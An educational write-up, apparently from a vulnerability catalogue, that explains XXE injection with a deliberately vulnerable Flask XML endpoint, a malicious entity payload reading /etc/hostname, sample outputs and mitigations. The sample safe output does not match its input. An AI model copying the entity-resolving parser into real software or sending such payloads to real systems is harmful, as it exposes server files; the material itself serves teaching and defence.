 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

A threat actor may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Threat actor sends a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target Logic 
```py
...
@app.route("/parse_xml",methods = ['POST'])
def parse_xml():
    parser = etree.XMLParser(resolve_entities=True)
    root = etree.fromstring(request.files['xml'].read(), parser)
    response = make_response(etree.tostring(root), 200)
    response.mimetype = "text/plain"
    return response
...
```

#### Target-in (Safe)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in (Malicious)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
